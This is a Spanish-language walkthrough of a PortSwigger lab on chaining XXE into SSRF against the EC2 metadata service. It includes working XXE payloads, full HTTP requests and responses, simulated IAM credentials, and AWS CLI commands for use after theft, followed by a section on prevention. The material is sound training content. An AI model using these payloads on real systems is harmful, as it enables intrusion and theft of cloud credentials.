


# PortSwigger Web Security Academy — XXE Lab 2

## Explotación de XXE para realizar ataques SSRF

**URL del laboratorio:**  
https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

**Categoría:** XXE — XML External Entity Injection  
**Objetivo:** usar una vulnerabilidad XXE para realizar SSRF contra el endpoint interno de metadatos de EC2 y obtener la **IAM SecretAccessKey**.  
**Funcionalidad vulnerable:** `Check stock`, que recibe y procesa XML.  
**Endpoint interno objetivo:** `http://169.254.169.254/`

---

## Imágenes del laboratorio

### Imagen 1 — laboratorio iniciado



### Imagen 2 — laboratorio resuelto



---

# 1. Idea principal del laboratorio

Este laboratorio mezcla dos conceptos que ya se han visto por separado:

1. **XXE**, porque controlamos XML y el parser permite entidades externas.
2. **SSRF**, porque usamos esa entidad externa para obligar al servidor a hacer una petición HTTP interna.

En el laboratorio anterior de XXE, el objetivo era leer un archivo local con una entidad como esta:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

En este laboratorio el objetivo cambia. Ya no queremos leer un archivo local con `file://`. Queremos que el parser XML haga una petición HTTP hacia una dirección interna:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/">
```

Esa dirección es el endpoint de metadatos de EC2. En entornos AWS reales, este endpoint puede devolver información sobre la instancia y, si hay un IAM Role asociado, también puede devolver credenciales temporales.

La cadena de ataque es:

```text
XML controlado por el atacante
        ↓
DOCTYPE con entidad externa
        ↓
Parser XML resuelve la entidad
        ↓
El servidor hace una petición HTTP a 169.254.169.254
        ↓
La respuesta del metadata service se inserta dentro del XML
        ↓
La aplicación devuelve ese valor en el error de productId
        ↓
El atacante extrae credenciales IAM
```

La idea clave es esta:

> XXE es el vehículo. SSRF es el efecto.

---

# 2. Qué es XXE en este contexto

XXE significa **XML External Entity Injection**.

XML permite definir entidades dentro de un `DOCTYPE`. Una entidad funciona como una especie de variable que luego se puede usar dentro del documento XML.

Ejemplo benigno:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY nombre "wiener">
]>
<stockCheck>
    <productId>&nombre;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Cuando el parser XML procesa `&nombre;`, lo reemplaza por `wiener`.

El XML interpretado internamente queda así:

```xml
<stockCheck>
    <productId>wiener</productId>
    <storeId>1</storeId>
</stockCheck>
```

Eso por sí solo no es necesariamente peligroso. El problema aparece cuando la entidad no contiene un texto fijo, sino un recurso externo.

Ejemplo peligroso:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

O en este laboratorio:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/">
```

La palabra `SYSTEM` indica que el contenido de la entidad debe obtenerse desde un recurso externo.

---

# 3. Qué significa `SYSTEM` en XML

En XML, `SYSTEM` se usa para decir que la entidad obtiene su contenido desde una ubicación externa.

Ejemplo:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/">
```

Se interpreta así:

```text
<!ENTITY xxe ...>              define una entidad llamada xxe
SYSTEM                         el contenido viene de fuera del XML
"http://169.254.169.254/"      recurso externo que debe consultar el parser
```

Después, cuando el XML contiene esto:

```xml
<productId>&xxe;</productId>
```

el parser intenta resolver `&xxe;`.

Como `xxe` apunta a una URL, el servidor realiza una petición HTTP hacia esa URL. Después toma la respuesta y la coloca donde estaba la entidad.

Es decir, el parser convierte esto:

```xml
<productId>&xxe;</productId>
```

en algo como esto:

```xml
<productId>latest</productId>
```

si la respuesta de `http://169.254.169.254/` es `latest`.

---

# 4. Qué es SSRF

SSRF significa **Server-Side Request Forgery**.

La idea es hacer que el servidor vulnerable realice peticiones HTTP en nombre del atacante.

En un SSRF normal, el atacante controla directamente una URL que el backend visita. Por ejemplo:

```text
stockApi=http://localhost/admin
```

En este laboratorio no controlamos un parámetro tipo `stockApi`. Controlamos XML. Pero como el parser XML permite entidades externas, podemos lograr un efecto similar.

La entidad externa hace que el backend realice esta petición:

```http
GET / HTTP/1.1
Host: 169.254.169.254
```

El atacante no puede visitar directamente `169.254.169.254` desde su navegador, porque esa IP solo existe desde dentro de la instancia o del entorno interno. Pero el servidor vulnerable sí puede acceder a ella.

Por eso este laboratorio es una combinación:

```text
XXE → provoca SSRF → accede a metadata service → extrae credenciales IAM
```

---

# 5. Qué es `169.254.169.254`

`169.254.169.254` es una IP muy conocida en entornos cloud, especialmente en AWS.

Es una dirección **link-local**. Eso significa que no es una dirección pública normal de Internet. Está pensada para ser accesible desde la propia máquina o instancia.

En AWS EC2, esa IP aloja el **Instance Metadata Service**, también conocido como **IMDS**.

La URL base es:

```text
http://169.254.169.254/
```

Desde una instancia EC2, una aplicación puede consultar esa dirección para obtener información sobre sí misma.

Ejemplos de rutas típicas:

```text
/latest/meta-data/instance-id
/latest/meta-data/hostname
/latest/meta-data/local-ipv4
/latest/meta-data/iam/security-credentials/
```

En este laboratorio, PortSwigger simula ese endpoint para que podamos practicar el impacto de XXE + SSRF.

---

# 6. Qué es EC2

EC2 significa **Elastic Compute Cloud**.

Es el servicio de AWS que permite crear servidores virtuales.

Una EC2 puede ser, por ejemplo:

```text
una máquina Ubuntu
con Apache o Nginx
con una aplicación web
con permisos IAM para acceder a otros servicios AWS
```

En términos simples:

> EC2 = un servidor virtual dentro de AWS.

Si una empresa tiene una aplicación web corriendo en AWS, puede estar desplegada en una instancia EC2.

---

# 7. Qué es IMDS

IMDS significa **Instance Metadata Service**.

Es un servicio interno que AWS expone dentro de cada instancia EC2 para que la instancia pueda consultar datos sobre sí misma.

Ejemplos:

```text
¿Cuál es mi instance-id?
¿Cuál es mi hostname?
¿Cuál es mi IP privada?
¿Qué IAM Role tengo asignado?
¿Cuáles son mis credenciales temporales?
```

El endpoint base es:

```text
http://169.254.169.254/
```

Esto no se usa desde Internet. Lo usa la propia instancia.

El problema aparece cuando una aplicación que corre dentro de esa instancia tiene SSRF. En ese caso, el atacante puede obligar al servidor a consultar IMDS.

---

# 8. Qué es IAM

IAM significa **Identity and Access Management**.

Es el sistema de identidades y permisos de AWS.

IAM decide:

```text
quién puede hacer qué
sobre qué recursos
bajo qué condiciones
```

Ejemplo de permiso:

```json
{
  "Effect": "Allow",
  "Action": "s3:GetObject",
  "Resource": "*"
}
```

Eso significa que esa identidad puede leer objetos de S3.

---

# 9. Qué es un IAM Role

Un IAM Role es una identidad con permisos que puede asumir un servicio o una instancia.

Las EC2 no suelen tener usuarios y contraseñas guardados en archivos. Lo normal es asignarles un IAM Role.

Ejemplo:

```text
Role: admin
Permisos: acceder a S3, CloudWatch, Secrets Manager, etc.
```

La instancia obtiene credenciales temporales para ese role desde IMDS.

La ruta típica es:

```text
/latest/meta-data/iam/security-credentials/
```

Esa ruta devuelve el nombre del role.

Después, si el role se llama `admin`, se consulta:

```text
/latest/meta-data/iam/security-credentials/admin
```

Y ahí aparecen credenciales temporales.

---

# 10. Por qué robar credenciales IAM es tan grave

Si un atacante consigue:

```json
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "..."
}
```

puede usar esas credenciales contra APIs de AWS, siempre dentro de los permisos del role.

Dependiendo de permisos, podría:

```text
listar buckets S3
leer backups
leer secretos
interactuar con DynamoDB
ver instancias EC2
modificar infraestructura
extraer datos privados
moverse lateralmente en AWS
```

En cloud, muchas veces robar la identidad de la máquina es más importante que comprometer la máquina en sí.

---

# 11. Diferencia entre el lab XXE anterior y este

## Lab anterior

El payload era:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Objetivo:

```text
leer un archivo local del servidor
```

Tipo de impacto:

```text
Local File Read
```

## Este lab

El payload es:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/">
```

Objetivo:

```text
hacer que el servidor consulte una URL interna
```

Tipo de impacto:

```text
SSRF mediante XXE
```

La diferencia es fundamental:

```text
file://  → lectura de archivos
http://  → peticiones HTTP server-side
```

---

# 12. Petición original del laboratorio

Entramos en el laboratorio:

```text
https://0a040019041b9201834cbab0002b0086.web-security-academy.net/
```

La web es una tienda con productos. La funcionalidad vulnerable está en `Check stock`.

Al visitar un producto y pulsar `Check stock`, Burp captura una petición como esta:

```http
POST /product/stock HTTP/2
Host: 0a040019041b9201834cbab0002b0086.web-security-academy.net
Cookie: session=woRd41nME50aiNwmFHO6PK6YfOzSRFj0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a040019041b9201834cbab0002b0086.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a040019041b9201834cbab0002b0086.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

Lo importante es el body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>2</storeId>
</stockCheck>
```

Y también esta cabecera:

```http
Content-Type: application/xml
```

Eso nos indica que el servidor espera XML.

---

# 13. Dónde está la vulnerabilidad

La vulnerabilidad está en que el servidor parsea XML controlado por el usuario y permite `DOCTYPE` con entidades externas.

Esto permite insertar una entidad como esta:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
```

Después usamos la entidad en `productId`:

```xml
<productId>&xxe;</productId>
```

El servidor esperaba un número, pero recibirá la respuesta del endpoint externo.

Esto es útil porque la aplicación devuelve valores inesperados dentro del mensaje de error:

```text
Invalid product ID: <valor>
```

Por eso podemos ver la respuesta de IMDS reflejada en la respuesta HTTP.

---

# 14. Primer payload: consultar la raíz de IMDS

Modificamos el XML así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

La respuesta es:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 28

"Invalid product ID: latest"
```

Esto es una prueba enorme.

Significa que:

1. El `DOCTYPE` fue aceptado.
2. La entidad `xxe` fue procesada.
3. El servidor hizo una petición a `http://169.254.169.254/`.
4. IMDS respondió `latest`.
5. El valor `latest` fue insertado en `productId`.
6. La aplicación lo reflejó en el error.

La respuesta `latest` es la primera carpeta del árbol de metadata.

---

# 15. Segundo payload: entrar en `/latest/`

Ahora modificamos la entidad:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/">
```

El XML completo queda:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

La respuesta es:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 31

"Invalid product ID: meta-data"
```

Eso significa que dentro de `/latest/` existe la ruta:

```text
meta-data
```

El árbol descubierto hasta ahora es:

```text
/
└── latest/
    └── meta-data/
```

---

# 16. Tercer payload: entrar en `/latest/meta-data/`

Ahora usamos:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

XML completo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Respuesta:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 25

"Invalid product ID: iam"
```

Ahora sabemos que dentro de `/latest/meta-data/` existe:

```text
iam
```

El árbol queda:

```text
/
└── latest/
    └── meta-data/
        └── iam/
```

---

# 17. Cuarto payload: entrar en `/latest/meta-data/iam/`

Payload:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/">
```

XML completo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Respuesta:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 42

"Invalid product ID: security-credentials"
```

Ahora sabemos que dentro de `iam` existe:

```text
security-credentials
```

Árbol:

```text
/
└── latest/
    └── meta-data/
        └── iam/
            └── security-credentials/
```

---

# 18. Quinto payload: obtener el nombre del IAM Role

Payload:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

XML completo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Respuesta:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 27

"Invalid product ID: admin"
```

Esto significa que el IAM Role asociado se llama:

```text
admin
```

El árbol queda:

```text
/
└── latest/
    └── meta-data/
        └── iam/
            └── security-credentials/
                └── admin
```

---

# 19. Payload final: extraer las credenciales del role `admin`

Ahora consultamos la ruta completa:

```text
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
```

Payload:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
```

XML completo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Respuesta:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 552

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2026-05-13T07:05:15.082821348Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "7563BOjvOlX7C25TuMA1",
  "SecretAccessKey" : "xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ",
  "Token" : "8XYabpiV2DPudXXYG6By0lAI3tqHqvArCLrkUQyPivh0MtiwfIh6JofqQUICyoWbkYK0yOVgLCadYHh6p63tp0aezIuSbCi2AztoPIAdodeI2mBpybV6aUi93VWp22sXSTyg3d9gXMs0utGfLCVYqhpFQFf0rRCIbLVgwMvJYOQc7pKVIWtDV80ZsMqtuWyMOXXZOwSgS0fuvdCKxzJ0rGXlMYo0zQGqa9sWr86eUOGmI075MMxZSVkLgtNUdz84",
  "Expiration" : "2032-05-11T07:05:15.082821348Z"
}"
```

El dato que pide el laboratorio es la **IAM SecretAccessKey**:

```text
xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ
```

Al conseguir esa clave, el laboratorio queda resuelto.

---

# 20. Por qué las respuestas salen como `Invalid product ID`

La aplicación espera que `productId` sea un número.

Ejemplo normal:

```xml
<productId>1</productId>
```

Pero con XXE, el parser reemplaza `&xxe;` por texto externo.

Por ejemplo:

```xml
<productId>&xxe;</productId>
```

termina siendo:

```xml
<productId>latest</productId>
```

O al final:

```xml
<productId>{ "Code": "Success", ... }</productId>
```

Eso no es un número válido.

Entonces la aplicación devuelve un error como:

```text
Invalid product ID: latest
```

Ese comportamiento nos favorece porque refleja el valor inesperado en la respuesta. Sin ese reflejo, el ataque podría ser blind XXE y necesitaríamos un canal externo.

---

# 21. Árbol completo recorrido

Durante el ataque fuimos recorriendo IMDS así:

```text
http://169.254.169.254/
└── latest

http://169.254.169.254/latest/
└── meta-data

http://169.254.169.254/latest/meta-data/
└── iam

http://169.254.169.254/latest/meta-data/iam/
└── security-credentials

http://169.254.169.254/latest/meta-data/iam/security-credentials/
└── admin

http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/
└── JSON con credenciales IAM
```

La ruta final fue:

```text
/latest/meta-data/iam/security-credentials/admin/
```

---

# 22. Qué significa cada campo del JSON final

La respuesta final contiene:

```json
{
  "Code" : "Success",
  "LastUpdated" : "2026-05-13T07:05:15.082821348Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "7563BOjvOlX7C25TuMA1",
  "SecretAccessKey" : "xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ",
  "Token" : "...",
  "Expiration" : "2032-05-11T07:05:15.082821348Z"
}
```

## `Code`

```json
"Code" : "Success"
```

Indica que la petición al metadata service fue exitosa.

## `LastUpdated`

```json
"LastUpdated" : "2026-05-13T07:05:15.082821348Z"
```

Indica cuándo se generaron o actualizaron esas credenciales.

## `Type`

```json
"Type" : "AWS-HMAC"
```

Indica el tipo de credenciales AWS.

## `AccessKeyId`

```json
"AccessKeyId" : "7563BOjvOlX7C25TuMA1"
```

Es el identificador público de la clave. Se puede comparar con un nombre de usuario.

## `SecretAccessKey`

```json
"SecretAccessKey" : "xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ"
```

Es el valor secreto. Este es el objetivo del laboratorio.

## `Token`

```json
"Token" : "..."
```

Es el token de sesión temporal. En AWS real, para usar credenciales temporales normalmente necesitas:

```text
AccessKeyId
SecretAccessKey
Token
```

## `Expiration`

```json
"Expiration" : "2032-05-11T07:05:15.082821348Z"
```

Indica cuándo expiran las credenciales.

---

# 23. Por qué esto es grave en un entorno real

En un entorno real, si una aplicación vulnerable corre en EC2 con un IAM Role útil, este ataque puede permitir al atacante obtener credenciales AWS temporales.

Con esas credenciales podría intentar acciones como:

```bash
aws sts get-caller-identity
aws s3 ls
aws secretsmanager list-secrets
aws ec2 describe-instances
```

El impacto depende de los permisos del role.

Si el role tiene permisos excesivos, el atacante podría acceder a datos sensibles o incluso comprometer partes completas de la infraestructura cloud.

---

# 24. Por qué IMDS existe si puede ser peligroso

IMDS no es una vulnerabilidad por sí mismo.

Existe para que una instancia EC2 pueda obtener información y credenciales temporales sin guardar claves estáticas en disco.

Esto es bueno desde el punto de vista operativo.

El problema aparece cuando una aplicación vulnerable permite que un atacante haga peticiones desde el servidor hacia IMDS.

La combinación peligrosa es:

```text
Aplicación vulnerable a SSRF o XXE
+
IMDS accesible desde la instancia
+
IAM Role con permisos útiles
=
Riesgo serio de compromiso cloud
```

---

# 25. IMDSv1 e IMDSv2

Históricamente, muchos ataques SSRF contra AWS funcionaban porque IMDSv1 permitía obtener metadata con una simple petición GET:

```http
GET /latest/meta-data/ HTTP/1.1
Host: 169.254.169.254
```

AWS introdujo IMDSv2 para dificultar este abuso.

IMDSv2 requiere primero pedir un token con un método `PUT` y luego usar ese token en una cabecera.

Flujo simplificado:

```http
PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
X-aws-ec2-metadata-token-ttl-seconds: 21600
```

Después:

```http
GET /latest/meta-data/ HTTP/1.1
Host: 169.254.169.254
X-aws-ec2-metadata-token: <token>
```

Esto no elimina todos los riesgos, pero rompe muchos SSRF simples que solo permiten GET sin cabeceras especiales.

En este laboratorio, el endpoint está simulado y permite la consulta directa para enseñar la técnica.

---

# 26. Por qué XXE puede causar SSRF

Una entidad externa XML puede usar diferentes esquemas:

```text
file://
http://
https://
ftp://
```

Depende del parser y de la configuración.

Si el parser permite resolver recursos HTTP, entonces una entidad como esta:

```xml
<!ENTITY xxe SYSTEM "http://example.com/">
```

hace que el servidor conecte con `example.com`.

Eso es SSRF porque el atacante controla el destino de una petición realizada por el servidor.

---

# 27. Petición final resumida

La petición final importante fue esta:

```http
POST /product/stock HTTP/2
Host: 0a040019041b9201834cbab0002b0086.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

La respuesta relevante fue:

```json
{
  "Code" : "Success",
  "AccessKeyId" : "7563BOjvOlX7C25TuMA1",
  "SecretAccessKey" : "xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ",
  "Token" : "...",
  "Expiration" : "2032-05-11T07:05:15.082821348Z"
}
```

El valor de solución fue:

```text
xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ
```

---

# 28. Errores del desarrollador

El fallo principal no es uno solo. Es una combinación:

## Error 1: aceptar XML controlado por el usuario

La aplicación permite que el usuario envíe XML directamente.

## Error 2: permitir `DOCTYPE`

El parser acepta declaraciones `DOCTYPE`.

## Error 3: permitir entidades externas

El parser resuelve `SYSTEM` entities.

## Error 4: permitir acceso HTTP desde el parser

El parser puede conectarse a URLs externas o internas.

## Error 5: reflejar valores inesperados

La aplicación devuelve el valor inválido de `productId` en la respuesta.

Eso convierte la vulnerabilidad en visible y explotable de forma directa.

---

# 29. Cómo prevenir este tipo de XXE

La defensa correcta es deshabilitar características peligrosas del parser XML.

Medidas típicas:

```text
deshabilitar DTDs
deshabilitar entidades externas
deshabilitar resolución de recursos externos
usar parsers seguros
no aceptar XML si no es necesario
validar contra esquemas estrictos
bloquear salida a metadata service desde la aplicación
usar IMDSv2 en AWS
aplicar mínimo privilegio en IAM Roles
```

La mitigación más fuerte a nivel XML es:

> no permitir `DOCTYPE` ni entidades externas.

A nivel cloud:

> no permitir que una aplicación vulnerable pueda alcanzar IMDSv1 y usar roles con privilegios excesivos.

---

# 30. Defensa en profundidad para cloud

Aunque arreglar XXE es obligatorio, en cloud conviene añadir capas adicionales.

## Usar IMDSv2

IMDSv2 reduce el riesgo de SSRF simples.

## Bloquear acceso a metadata si no se necesita

En algunos entornos se puede restringir el acceso a `169.254.169.254` desde contenedores o procesos que no lo necesitan.

## Mínimo privilegio IAM

El role de la EC2 no debería tener más permisos de los necesarios.

## Alertas

Monitorizar uso anómalo de credenciales, llamadas a STS, S3, Secrets Manager, etc.

## Egress filtering

Restringir conexiones salientes del servidor a destinos estrictamente necesarios.

---

# 31. Flujo completo final

```text
1. Entramos en un producto.
2. Pulsamos Check stock.
3. Burp captura POST /product/stock.
4. Confirmamos que el body es XML.
5. Insertamos un DOCTYPE con entidad externa.
6. Usamos SYSTEM con http://169.254.169.254/.
7. La respuesta devuelve latest.
8. Descendemos por el árbol de IMDS:
   /latest/
   /latest/meta-data/
   /latest/meta-data/iam/
   /latest/meta-data/iam/security-credentials/
9. Descubrimos el role admin.
10. Consultamos /latest/meta-data/iam/security-credentials/admin/.
11. Obtenemos AccessKeyId, SecretAccessKey y Token.
12. El laboratorio se resuelve al obtener SecretAccessKey.
```

---

# 32. Resumen corto

Este laboratorio demuestra que XXE no solo sirve para leer archivos locales.

También puede usarse para SSRF si el parser XML permite entidades externas HTTP.

El payload central es:

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
```

Y se invoca con:

```xml
<productId>&xxe;</productId>
```

La aplicación devuelve la respuesta del metadata service dentro del error:

```text
Invalid product ID: {...}
```

El secreto obtenido fue:

```text
xaSwiKxTKS50zhKcNGMdeHGkBS6uXZ53e6vbFipQ
```

---

# 33. Frase para recordar

> XXE puede convertir un parser XML en un cliente HTTP interno. Si ese cliente alcanza `169.254.169.254`, el impacto puede ser robo de credenciales cloud.


